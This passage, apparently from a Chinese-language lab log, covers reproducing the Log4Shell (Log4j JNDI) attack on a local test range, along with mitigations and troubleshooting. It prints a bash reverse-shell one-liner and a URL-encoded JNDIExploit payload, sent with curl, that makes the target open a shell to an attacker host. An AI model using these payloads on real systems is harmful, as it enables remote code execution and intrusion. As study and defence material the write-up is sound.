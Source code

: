 5. **Java 反序列化恶意代码**
恶意 LDAP 服务器响应目录信息，包含恶意 Java 类的位置。Java 反序列化该类并执行其中的恶意代码。
*防御措施：禁用远程代码库功能，确保反序列化过程的安全。*

具体防护措施：

- 使用Web应用防火墙（WAF）：在请求到达服务器前，使用WAF来过滤和阻止恶意请求。
- 禁用Log4j或更新Log4j：将Log4j更新至修复版本，或者禁用Log4j日志记录。
- 禁用JNDI查找：配置Log4j以禁用JNDI查找功能，防止它解析和执行恶意代码。
- 禁用远程代码库：通过配置，禁用从远程代码库加载类，确保Java反序列化过程的安全。

### 问题 

#### 1. kali 虚拟机上连接shell失败

Kali 虚拟机上试验命令 `bash -i >& /dev/tcp/192.168.182.130/7777 0>&1` 报错 `zsh: no such file or directory: /dev/tcp/192.168.4.130`

- 原因：`/dev/tcp/` 是 Bash 的一个特性，zsh 不支持

- 解决：输入 `bash` 切换到 Bash，再次执行反弹 Shell 命令

#### 2. JNDIExploit 反弹 Shell 失败

- 原因：`JNDIExploit` 工具使用 POST 请求，据昨天的经验，靶场容器不允许 POST 请求

- 解决：使用 GET 请求替代

```bash
# Base64 编码 `bash -i >& /dev/tcp/192.168.182.130/7777 0>&1`
# `YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx`
# 替换 `+` 为 `%2B`，`=` 为 `%3d`
# `YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx`
# URL 编码 `${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx}`
curl "http://192.168.182.129:51360/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.182.130%3A1389%2FTomcatBypass%2FCommand%2FBase64%2FYmFzaCAtaSA%252BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx%7D"
```

#### 3. suricata 更新失败 及 无法检测到攻击流量

- 原因：`jasonish/suricata:6.0.4` 版本太低，无法更新规则
- 解决：使用 `jasonish/suricata:latest` 镜像

### 参考

- (What is URL encoding? - LocationIQ)[https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://locationiq.com/glossary/url-encoding&ved=2ahUKEwj_vtnz6JyHAxVvklYBHRjWBM8QFnoECBcQAw&usg=AOvVaw16s5ejvi6YAfxkTdWNT8zo]

- - -

## 24.7.11-12: **多网段渗透场景攻防** 初探-跨网段渗透

### 日志
